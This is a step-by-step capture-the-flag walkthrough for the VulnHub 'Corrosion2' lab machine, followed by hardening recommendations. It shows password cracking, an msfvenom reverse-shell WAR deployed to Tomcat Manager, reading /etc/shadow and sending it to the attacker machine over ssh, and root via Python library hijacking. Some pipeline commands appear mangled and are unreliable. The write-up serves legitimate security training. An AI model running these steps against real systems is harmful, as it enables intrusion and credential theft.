# Corrosion2

This document provides an expanded explanation of the **Capture the Flag (CTF)** task published on **[VulnHub](https://www.vulnhub.com/entry/corrosion-2,745/)** by **"Proxy Programmer"**.
According to the author, the difficulty level of this CTF is **MEDIUM**, and the goal is to obtain **root access** to the target machine and find the **flag files**.

To complete this CTF, you need **basic knowledge of Linux commands** and **skills in using penetration testing tools**.
You can download the original CTF image **[here](https://download.vulnhub.com/corrosion/Corrosion2.ova)**.

> ⚠️ **Note**: For launching all virtual machines, **[Oracle VirtualBox](https://www.virtualbox.org/)** was used. **[Kali Linux](https://www.kali.org/docs/introduction/download-official-kali-linux-images/)** was used as the attacking machine to complete the CTF. The techniques used are **for educational purposes only**.
> **Liability for using them against any other targets will be determined according to applicable law.**

---

Proxy Programmer’s **Corrosion** is a medium-difficulty machine intended for training, testing network resilience, and verifying privilege configuration.
In this task, we perform a series of steps to compromise the machine and review some recommendations to improve its robustness and security.

## **Brief Overview of the CTF Solution Steps**

1. Download and launch the target machine and the research tool.
2. Obtain the **IP address of the target machine**.
3. Scan for **open ports** using **nmap**.
4. Investigate **HTTP services** on the identified ports. Review the web servers’ file systems and discover hidden files.
5. Access the encoded files of a protected archive containing the web server’s configuration data.
6. Analyze the discovered files for useful information.
7. Create a web application for a reverse shell.
8. Upload the code to the web server to gain access to the target machine.
9. Identify confidential files on the target computer.
10. Explore user accounts.
11. Determine user passwords.
12. Explore privilege-escalation paths. Obtain **root access** to the target system.

---

## **CTF Walkthrough Step by Step**

### **Step 1: Loading the target machines in VirtualBox**
Start the **Kali Linux** VM in **VirtualBox** with a terminal window


and the target machine for research, **Corrosion2**


---

### **Step 2: Get the target machine’s IP address using netdiscover**
After powering on and starting the target virtual machine in **VirtualBox**, the first step is to determine its IP address.
Use:

```sh
sudo netdiscover
```

📌 **Result**:
We obtained the target machine’s IP address — **192.168.6.178**.


⚠️ **Note**: The IP addresses of the attacking and target machines may differ depending on your network configuration.

---

### **Step 3: Scan open ports with nmap**
Use `nmap` to scan the discovered IP address for **open ports** and **running services**.
Use the `-sV` flag to identify ports, applications, and their versions:

```sh
nmap -sV 192.168.6.178/24
```

📌 **Result**:
- Port **22 (SSH)** is open.
- Port **80 (HTTP, Apache Server)** is open.
- Port **8080 (HTTP, Tomcat Server)** is open.


Next, we’ll examine the **web application** running on **port 8080**.

---

### **Step 4: Investigating web applications on ports 80 and 8080**
Open the target **IP address** in a browser. You will see the **default page** of the Apache server.


📌 **Result**:
The standard Apache default page has loaded.

Perform **directory enumeration** on the Apache server (port 80, default) using **dirb**:

```sh
dirb http://192.168.6.178/ -X .php,.zip
```

📌 **Result**:
No suspicious files were found.


Open the target **IP address** on port **8080** in the browser.
You will see the default **Tomcat** server page.


📌 **Result**:
We obtained a simple Tomcat server page with nothing suspicious.

Perform **directory enumeration** on the Tomcat server (port 8080) using **dirb**:

```sh
dirb http://192.168.6.178:8080/ -X .php,.zip
```

📌 **Result**:
In one of the directories, a backup file **backup.zip** was discovered.


---

### **Step 5: Investigating the backup.zip backup file**
Download the zip file using `wget`:

```sh
wget http://192.168.6.178:8080/backup.zip
```

📌 **Result**:
Successfully downloaded the backup file **backup.zip**.


Attempt to extract **backup.zip** using `unzip`:

```sh
unzip backup.zip
```

📌 **Result**:
The backup file **backup.zip** is password-protected.


The attempt shows the archive is protected by a password.
Install the fast password cracker — **fcrackzip**:

```sh
sudo apt install fcrackzip
```

📌 **Result**:
The archive password-cracking tool has been installed.


Go to the **/usr/share/wordlists** directory and list its files:

```sh
cd /usr/share/wordlists
ls
```

📌 **Result**:
The directory contains the archive **rockyou.txt.gz** with a word list.


Unpack the **rockyou.txt.gz** archive with `gunzip`:

```sh
gunzip rockyou.txt.gz
ls
```

📌 **Result**:
In **/usr/share/wordlists** we now have the text file **rockyou.txt** with a password list.


Try to crack the password for **backup.zip**. We will use the following parameters:
- With the `-D` key, specify dictionary mode; in this mode, fcrackzip reads passwords from a file containing one password per line, sorted alphabetically.
- The `-p` key points to the pattern (file) to use for cracking.
- The `-u` key tells fcrackzip to use `unzip` to verify the password.

Run **fcrackzip** with the `rockyou.txt` list to crack the password:

```sh
cd ~
fcrackzip -D -p /usr/share/wordlists/rockyou.txt -u backup.zip
ls
```

📌 **Result**:
We obtained the password **@administrator_hi5**.


Extract **backup.zip** and view its contents:

```sh
unzip backup.zip
```

📌 **Result**:
We obtained the list of files from **backup.zip**.


---

### **Step 6: Investigating Tomcat service files**
Check the contents of the Tomcat users XML file. Run:

```sh
cat tomcat-users.xml
```

📌 **Result**:
The **tomcat-users.xml** file contains credentials:<br>
- User: **admin**<br>
- Password: **melehifokivai**<br>


---

### **Step 7: Creating a reverse shell for Tomcat**
Determine our system’s IP address:

```sh
ip a
```

📌 **Result**:
Our system’s IP address is **192.168.6.147**.


Create a WAR file using **msfvenom**. Parameters:<br>
- `LHOST`: the IP address of our attacking machine — use 192.168.6.147
- `LPORT`: the listening port on the attacking machine — choose, for example, 5555
- Output format: WAR — Web Application Archive

Run:

```sh
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.6.147 LPORT=5555 -f war -o revshell.war
ls
```

📌 **Result**:
Reverse shell **revshell.war** created.


---

### **Step 8: Uploading the reverse shell to the target computer**
Using the discovered credentials **admin:melehifokivai**, sign in to the Tomcat Manager.
In the browser, go to port 8080 of the target machine `192.168.6.178`:


Click **manager app**, enter the credentials, and sign in via **sign in**<br>
- User: **admin**<br>
- Password: **melehifokivai**<br>


📌 **Result**:
We gained access to the application management panel on the Tomcat web server.


Find the section for uploading new WAR files on the management page. Click **browse**


Upload the previously created **revshell.war**. Select the file `revshell.war` from the home folder.


Use the **deploy** button to deploy the reverse shell application on the Tomcat server.


📌 **Result**:
Our application **revshell.war** has been deployed on the target Tomcat server and is available at **http://192.168.6.178:8080/revshell**


---

### **Step 9: Exploring the target system for confidential files in user profiles**
To analyze network connections, use **netcat** with parameters:<br>
- `-l` sets listening mode together with the port number
- `-n` means do not perform DNS lookups; use IP addresses directly
- `-p` indicates the port number
- `-v` enables verbose output

Run netcat to listen for the reverse shell:

```sh
nc -lnvp 5555
ls
```

📌 **Result**:
Netcat started listening on port 5555 on our system.


In the browser, navigate to `/revshell/` on the target machine `192.168.6.178` at port 8080


📌 **Result**:
In our terminal, we will see a connection from the target machine.


After the payload starts, we get a shell. Improve the shell environment using Python:

```sh
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

📌 **Result**:
We obtained **bash** on the target computer. This allows us to begin exploring the system for confidential files and potential privilege-escalation paths.


Go to the home directories of users **jaye** and **randy**. Run:

```sh
cd /home
ls
cd jaye
ls
cd /home/randy
ls
```

📌 **Result**:
In user **randy**’s home folder we found interesting files **user.txt** and **note.txt**.


View the contents of **user.txt** and **note.txt**:

```sh
cat user.txt
cat note.txt
```

📌 **Result**:
From **user.txt** we obtained a flag, which together with the message from **note.txt**, gives us hints for further actions.


---

### **Step 10: Exploring user accounts**
Try to log in as user **jaye** using the same password **melehifokivai**:

```sh
ssh jaye@192.168.6.178
```

📌 **Result**:
We successfully logged in via SSH.


After logging in, use Python to obtain a fully interactive shell:

```sh
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

📌 **Result**:
We obtained **bash** on the target computer as user **jaye**.


Explore **jaye**’s file system:

```sh
ls
cd Files
ls
ls -al
```

📌 **Result**:
User **jaye** has access to a **look** command, which can be used to read confidential files, notably **/etc/shadow** and **/etc/passwd**.


Use **look** to obtain password hashes of all system users. Command-line choices:<br>
- Use the variable `LFILE="file to read"` to set the file
- Leave the prefix string empty (`''`) so **look** outputs all matching lines

```sh
./look LFILE=/etc/shadow
./look '' $LFILE
```

📌 **Result**:
We obtained the hashed passwords of system users.


Save the user password hashes to **hashall.txt** on our Kali machine.
Run a similar command and redirect the output to the home folder of user **kali**.
When prompted, confirm with `yes` and enter the **kali** user’s password:

```sh
./look '' $LFILE \
  ssh kali@192.168.6.147 "cat >> ~/hashall.txt"
```

📌 **Result**:
We saved the **look** command’s output on the Kali machine.


Verify the previous operation. Return to the Kali machine. Run `exit` twice and list files:

```sh
exit
exit
ls
```

📌 **Result**:
The file **hashall.txt** is saved in the **kali** user’s home folder.


View **hashall.txt**:

```sh
cat hashall.txt
```

📌 **Result**:
We saved the target system users’ hashed passwords.


Copy from **hashall.txt** the line with user **randy**’s data. Save it to **hash.txt**:

```sh
cat hashall.txt \
  grep randy > hash.txt
cat hash.txt
```

📌 **Result**:
The file **hash.txt** contains information about user **randy**.


---

### **Step 11: Determining user randy’s password**
To crack the hash, use the **john** password cracking tool. Show help:

```sh
john --help
```

Key options to note:<br>
- Syntax: `john [OPTIONS] [PASSWORD-FILES]`
- `--wordlist[=FILE] --stdin` uses wordlist mode, reading words from a file or stdin.


To speed up cracking, use the **/usr/share/wordlists/rockyou.txt** list. Verify it exists:

```sh
ls /usr/share/wordlists
```

📌 **Result**:
The default password list exists at **/usr/share/wordlists/rockyou.txt**.


Crack the hash by specifying the wordlist with `--wordlist`:

```sh
ls /usr/share/wordlists
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

This operation can take a long time—from several to many hours—depending on your system’s power.
By pressing any key in the console (except `q` and `Ctrl+C`) you can monitor status.


> ⚠️ **Note**: The “ETA:” line usually indicates the **Estimated Time of Arrival** (time remaining).

📌 **Result**:
We obtained **randy**’s password: **07051986randy**


---

### **Step 12: Exploring potential privilege-escalation paths**
Use the cracked **randy** account to log into the target system over SSH:

```sh
ssh randy@192.168.6.178
```

📌 **Result**:
We logged into the target system using **randy**’s password **07051986randy**.


Confirm that we cannot obtain root via `su`:

```sh
sudo su -
```

📌 **Result**:
User **randy** cannot obtain root via **su**.


Check sudo privileges:

```sh
sudo -l
```

📌 **Result**:
The output indicates that user **randy** may run the Python script **randombase64.py** with elevated privileges.


Examine **/home/randy/randombase64.py**:

```sh
pwd
cat randombase64.py
```

📌 **Result**:
The script **randombase64.py** imports a module named `base64`. This suggests a potential **Python library hijacking** opportunity. We can modify `base64.py` to execute arbitrary commands with root privileges.


To get the path to **base64.py** use `locate`:

```sh
locate base64.py
```

📌 **Result**:
The full path **/usr/lib/python3.8/base64.py** was found.


Check permissions on **/usr/lib/python3.8/base64.py**:

```sh
ls -al /usr/lib/python3.8/base64.py
```

📌 **Result**:
Access to **/usr/lib/python3.8/base64.py** is owned by user and group **root**. Therefore, a process that runs **base64.py** (when executed with sudo) will have **root** rights.


Open **/usr/lib/python3.8/base64.py** for editing:

```sh
nano /usr/lib/python3.8/base64.py
```

📌 **Result**:
The file **/usr/lib/python3.8/base64.py** is available for editing.



Add a command to create a root shell. Insert the following code to gain root access on the target computer:

```sh
import os
os.system("/bin/bash")
```

Save the changes with **Ctrl+O** and **Ctrl+X**.


Verify the changes by printing the first 16 lines of **/usr/lib/python3.8/base64.py**:

```sh
head -n 16 /usr/lib/python3.8/base64.py
```

📌 **Result**:
We modified the **base64.py** module and can now escalate privileges.


Use `sudo` to run **/home/randy/randombase64.py**. This script will import the modified **/usr/lib/python3.8/base64.py** and spawn a **root shell** for us. Use the password **07051986randy** when prompted:

```sh
sudo /usr/bin/python3.8 /home/randy/randombase64.py
```

📌 **Result**:
Using the **base64.py** module we obtained **root access** to the target system.


> ⚠️ **Note**: You must specify full paths to the files. Otherwise, you might not obtain **root** privileges.


Having obtained full system access, go to the **root** user’s home directory and display the **root.txt** flag:

```sh
ls
cd ~
ls
cat root.txt
pwd
```

📌 **Result**:
We obtained full access to the target system and can perform any actions. The **root.txt** file was found.


✅ **Final flag obtained! CTF completed!** 🎯

---

## **Recommendations**

1. **Apply strong password policies**:
   - Use complex and unique passwords for all accounts.
   - Implement multi-factor authentication to reduce credential-based attack risk.
2. **Protect backup files**:
   - Ensure confidential files such as backups are securely stored and encrypted.
   - Avoid placing them in publicly accessible web directories.
3. **Restrict access to management interfaces**:
   - Limit access to services like Tomcat Manager.
   - Implement IP-based restrictions.
   - Hide them behind a VPN or firewall.
4. **Conduct regular security audits**:
   - Perform regular security assessments to identify and mitigate vulnerabilities.
   - Pay special attention to those related to privilege escalation.
   - Review and restrict sudo privileges to the bare minimum.
5. **Implement proper logging and monitoring**:
   - Enable comprehensive logging and system-wide monitoring.
   - Detect suspicious activity, e.g., unauthorized file access or privilege escalation attempts.

---

## **Conclusion**
- This exercise highlights the importance of protecting confidential files, enforcing strict password policies, and regularly auditing system configurations to prevent unauthorized system compromise.
- By following the listed recommendations, you can significantly reduce the risk of the described vulnerabilities being exploited in real environments.

**What was done?**
✔️ Target machine IP address identified.<br>
✔️ Ports and services scanned.<br>
✔️ **HTTP services** investigated.<br>
✔️ Web servers’ file systems reviewed.<br>
✔️ "Useful" information for initial access discovered.<br>
✔️ Reverse shell web application created.<br>
✔️ **Shell access** obtained via SSH.<br>
✔️ User accounts investigated.<br>
✔️ **Root access** obtained to the target system.<br>

🔹 **This CTF was an educational task example** for practicing **ethical hacking** and penetration testing skills.
## Download the modified virtual machine image **[here](https://drive.google.com/drive/folders/1bxINfhxSll6MKwqg28uDYVZY50YsaTab)**.
